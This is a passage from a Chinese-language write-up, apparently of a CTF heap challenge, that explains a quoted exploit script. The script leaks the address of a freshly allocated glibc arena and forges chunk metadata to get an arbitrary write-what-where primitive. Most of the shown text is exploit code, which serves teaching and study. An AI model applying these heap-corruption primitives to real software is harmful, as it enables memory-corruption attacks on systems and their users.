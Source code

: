 

## 第二个关键点

这里他先把一些tuple加进一个list，但是这个我们暂时先不管，我们先来分析他的write what where

```
for what, where in what_where:
  print('[0x`{`:012x`}`] = 0x`{`:x`}`'.format(where, what))

  # if we triggered an error, the arena will be marked as corrupted and a new one allocated
  # leak the address of that new arena first
  alloc(0)
  alloc(1)
  write(1, fit(`{`0x20: 0x320`}`, length=0x300))
  free(0)

  leak = ''
  while len(leak) &lt; 6:
    new_chr = pr(0)[len(leak):len(leak)+1]
    if not new_chr:
      new_chr = 'x00'
    leak += new_chr
    write(0, 'A'*len(leak))

  new_arena = u64(leak.ljust(8, 'x00')) - 0x58
  write(0, flat(new_arena+0x58))
```

我们可以从他的注释知道

```
# when triggering an error, the arena will be marked as corrupted and a new one gets allocated
# though when allocating from an arena, there's a check that the result of _int_malloc is in a
# valid range for a given arena. We put the main_arena back in the arena_free_list so that this
# check doesn't stop us.
```

当error发生之后，当前arena会标记会出错的，新的arena会被建立，基本就是mmap出来的，所以他上面的代码是leak出新的arena的地址

```
# some unnecessary allocations left over from exploit dev. But I'm too lazy to fix the offsets below, so leaving them in
  alloc(0)
  alloc(2)
  alloc(3)
  alloc(4)
  free(0)

  # trigger the write-what-where
  write(0, flat(new_arena+0x68-0x10, new_arena-0x20+0x8d0, 0, 0x320, new_arena-0x20+0x8b0, new_arena-0x20+0x8f0, 0, 0x320, new_arena-0x20+0x8d0, new_arena+0x68-0x10))
  alloc(1)
  alloc(1)
  write(0, flat(new_arena+0x68-0x10, new_arena-0x20+0x8d0, 0, 0x340, new_arena-0x20+0x8b0, new_arena-0x20+0x8f0, 0, 0x400, new_arena-0x20+0x8f0+0x30, new_arena-0x20+0x388, where-0x28, what, 0, 0x320, 1, new_arena-0x20+0x8f0, 1, 1))
  alloc(1)
```
